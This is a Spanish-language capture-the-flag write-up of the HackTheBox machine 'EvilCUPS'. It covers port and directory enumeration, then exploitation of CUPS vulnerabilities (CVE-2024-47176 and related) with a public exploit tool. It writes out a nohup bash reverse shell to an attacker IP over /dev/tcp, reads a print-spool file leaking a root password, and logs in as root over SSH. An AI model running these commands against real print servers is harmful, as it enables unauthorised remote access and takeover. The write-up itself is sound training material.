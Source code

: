 ```yaml
---
layout: single
title: write up EvilCUPS
excerpt:
date: 2024-11-07
classes: wide
header:
  teaser: /assets/images/EvilCUPS/0_uZO541QLUUyiyuW1-1681376233.png
  teaser_home_page: true
categories:
  - hacking
  - linux
  - 
tags:  
  - hacking
  - linux
---
```


![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/0_uZO541QLUUyiyuW1-1681376233.png)
xd
"EvilCUPS" es una máquina de HackTheBox basada en vulnerabilidades del servicio CUPS que permiten ejecución remota de comandos. Siguiendo un tutorial reciente, logramos acceso inicial al sistema y, al revisar archivos de configuración de CUPS, encontramos una contraseña reutilizada para root, lo que nos dio control total del sistema.

lo primero que vamos a hacer es ejecutar los escaneos de nmap:
```bash
nmap -p- --open -sT --min-rate 5000 -vvv -n -Pn 10.10.11.40 -oG allports
```
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107151258.png)

```bash
nmap -sCV -p22,631 10.10.11.40 -oN ports
```
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107151642.png)
vemos que nos da la version de cups que es la 2.4 una version antigua del 2022.
tambien podemos ver que hay http por lo que alomejor hay una web.
vamos a usar whatweb para averiguarlo:
```bash
whatweb 10.10.11.40:631
```
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107152132.png)
como podemos ver hay algo por lo que vamos a ponerlo en el navegador
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pasted image 20241107152436.png)
nada mas entrar vemos otra vez la version del servicio y multiples enlaces a los cuales podemos acceder.
antes de ponerme a tocar voy a preferir ejecutar un gobuster para ver si encuentro algo mas
```bash
 gobuster dir -u http://10.10.11.40:631/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt -t 30 -x php,html,php.bak,bak,txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.11.40:631/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php.bak,bak,txt,php
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.html           (Status: 200) [Size: 2262]
/help                 (Status: 200) [Size: 3137]
/jobs                 (Status: 200) [Size: 2329]
/jobs.txt             (Status: 200) [Size: 2329]
/jobs.html            (Status: 200) [Size: 2329]
/jobs.php.bak         (Status: 200) [Size: 2329]
/jobs.php             (Status: 200) [Size: 2329]
/jobs.bak             (Status: 200) [Size: 2329]
/de                   (Status: 200) [Size: 2316]
/fr                   (Status: 200) [Size: 2340]
/admin                (Status: 403) [Size: 370]
/admin.html           (Status: 403) [Size: 370]
/admin.php            (Status: 403) [Size: 370]
/admin.bak            (Status: 403) [Size: 370]
/admin.txt            (Status: 403) [Size: 370]
/admin.php.bak        (Status: 403) [Size: 370]
/es                   (Status: 200) [Size: 2478]
/ru                   (Status: 200) [Size: 2739]
/ja                   (Status: 200) [Size: 2263]
/printers.php.bak     (Status: 200) [Size: 2388]
/printers.bak         (Status: 200) [Size: 2388]
/printers             (Status: 200) [Size: 2388]
/printers.html        (Status: 200) [Size: 2388]
/printers.php         (Status: 200) [Size: 2388]
/printers.txt         (Status: 200) [Size: 2388]
/classes.php.bak      (Status: 200) [Size: 2003]
/classes              (Status: 200) [Size: 2003]
/classes.bak          (Status: 200) [Size: 2003]
/classes.php          (Status: 200) [Size: 2003]
/classes.txt          (Status: 200) [Size: 2003]
/classes.html         (Status: 200) [Size: 2003]
/robots.txt           (Status: 200) [Size: 95]
/administration       (Status: 403) [Size: 370]
/administration.txt   (Status: 403) [Size: 370]
/administration.html  (Status: 403) [Size: 370]
/administration.php   (Status: 403) [Size: 370]
/administration.php.bak (Status: 403) [Size: 370]
/administration.bak   (Status: 403) [Size: 370]
/da                   (Status: 200) [Size: 2311]
/'                    (Status: 403) [Size: 370]
/'.php                (Status: 403) [Size: 370]
/'.php.bak            (Status: 403) [Size: 370]
/'.html               (Status: 403) [Size: 370]
/'.bak                (Status: 403) [Size: 370]
/'.txt                (Status: 403) [Size: 370]
/jobsearch.php        (Status: 200) [Size: 2329]
/jobsearch            (Status: 200) [Size: 2329]
/jobsearch.html       (Status: 200) [Size: 2329]
/jobsearch.bak        (Status: 200) [Size: 2329]
/jobsearch.php.bak    (Status: 200) [Size: 2329]
/jobsearch.txt        (Status: 200) [Size: 2329]
/jobseeker            (Status: 200) [Size: 2329]
/jobseeker.bak        (Status: 200) [Size: 2329]
/jobseeker.txt        (Status: 200) [Size: 2329]
/jobseeker.php        (Status: 200) [Size: 2329]
/jobseeker.php.bak    (Status: 200) [Size: 2329]
/jobseeker.html       (Status: 200) [Size: 2329]
Progress: 32619 / 7642998 (0.43%)
```
no parece aver nada interesante por lo que vamos a tocar la pagina
si nos vamos a http://10.10.11.40:631/printers/
veremos lo siguiente:
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107153439.png)
si clicamos sobre Canon_MB2300_series veremos que nos da cierta infromacion de la impresora
![](/assets/images/EvilCUPS/Pasted image 20241107153634.png)
tambien si vemos Show completed jobs saldran las tareas completadas (en vuestro caso solo os saldra una no como a mi que me puse a tocar antes de escribir xdd)
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107153804.png)
como podemos ver hay dos usuarios Withheld y anonymous ( este ultimo es que usado yo y que no os aparecera)
lo interesante esque tenemos poder sobre el usuario anonymous pero por ejemplo si intentamos haceder a http://10.10.11.40:631/admin nos suelta un 403 forbiden
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107154158.png)
por lo aqui entran los siguientes CVE:

[CVE-2024-47176](https://nvd.nist.gov/vuln/detail/CVE-2024-47176)

[CVE-2024-47076](https://nvd.nist.gov/vuln/detail/CVE-2024-47076)

[CVE-2024-47175](https://nvd.nist.gov/vuln/detail/CVE-2024-47175)

[CVE-2024-47177](https://nvd.nist.gov/vuln/detail/CVE-2024-47177)

basicamente lo que hay que comprobar el puerto 631 por UDP, si esta abierto podemos ejecuatr remote code execution (RCE)
por lo que podemos usar nmap para ver si es correcto:
```bash
nmap -sU -p631 10.10.11.40
```
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107154858.png)
como podemos ver esta abierto por lo que genial (para nostros como atacantes claro)
vamos a darnos el lujazo de que vamos a usar el siguiente exploit para poder vulnerar el servicio 
https://github.com/IppSec/evil-cups.git
para isntalarlo es asi:
```bash
❯ git clone https://github.com/IppSec/evil-cups.git
<SNIP>

❯ cd evil-cups

❯ python3 -m venv evilcups_env

❯ source evilcups_env/bin/activate

❯ pip3 install -r requirements.txt

❯ python3 evilcups.py -h
evilcups.py <LOCAL_HOST> <TARGET_HOST> <COMMAND>
```
vale una vez echo abrimos otra terminal y nos ponemos en escucha por un puerto, en mi caso voy a elejir el 443 (no afecta en nado solo es por gusto)
```bash
nc -nvlp 443
```
ahora el exploit tiene un pero por ejemplo, nos enviamos una reverse shell ésta compartirá el mismo PID del proceso que está corriendo la impresora

para comprenderlo mejor voy a citar una explicacion de otro write up que lo explica fabulosamente y os dejo el enlace tambien al writeup oficial


https://gunzf0x.github.io/pentesting/es/posts/evilcups/


cito:
"por ejemplo, nos enviamos una reverse shell ésta compartirá el mismo `PID` del proceso que está corriendo la impresora. De manera que, si por A, B, C motivo la mala impresora (agregada) se muere o es removida, nuestra reverse shell también morirá ya que es un proceso “child” (hijo) de ésta. Puede haber un proceso corriendo por detrás el cual elimina las impresoras no deseadas. Por tanto, nuestra reverse shell podría morir. Para sobrepasar este problema podemos crear un nuevo `PID` el cual se haga cargo del proceso de la reverse shell utilizando el comando `nohup` junto con el de la reverse shell. Por tanto, si realizamos esta secuencia de ataque para `CUPS`, se recomienda hacerlo utilizando `nohup` para crear un proceso independiente.

Como último aviso, en la vida real puede que no haya un proceso removiendo constantemente las impresoras no deseadas. De ser ese el caso (el cual es más realista), y por alguna razón nuestra reverse shell muere, tendremos que cambiar nuestra dirección IP dado que al realizar la inyección ésta no aceptará un nuevo archivo `PPD`. Supongo que por eso la gente de HTB fue considerada y agregó el proceso de borrar impresoras. De otro modo necesitaríamos cambiar la IP cada vez que la reverse shell muere o, incluso, si es que simplemente ejecutamos un `ping` para saber si el exploit funcionaba."

vale una vez dicho esto vamos a ejecuat el exploit de la siguiente forma:
```bash
python3 evilcups.py 10.10.16.74 10.10.11.40 'nohup bash -c "bash -i >& /dev/tcp/10.10.16.74/443 0>&1" &'
```
y esperamos unos 30 segundos
pasados esos 30 segundos si vamos a http://10.10.11.40:631/printers/ veremos la impresora maliciosa
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107160105.png)
si la selecionamos y imprimimos una pagina de ejmplo 
pum estamos dentro
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107160207.png)
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107160221.png)
ahora para el escalado de privilegios 
## escalado de privilegios
hay un directorio cups donde en general se almacena todo. problema no tenemos haceso pero si podemos ejecutar comando:
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107160946.png)
por lo que si investigamos un poco descubrimos que suelen tener una nomeglatura generica los archivos gracias a la documentacion oficial de cups
por lo que si supuestamente hacemos un:
```bash
cat /var/spool/cups/d00001-001
```
deveria ver una/unas contraseña/s
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107161244.png)
y exacto hay la tenemos.
si nos la copiamos y con netexect para ver si es de root:
```bash
nxc ssh 10.10.11.40 -u 'root' -p 'Br3@k-G!@ss-r00t-evilcups'
```
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107161436.png)
y vemos que si por lo que ya solo es entrar por ssh y somos root
![](https://404zzero.github.io/zzero.github.io//assets/images/EvilCUPS/Pastedimage20241107161548.png)
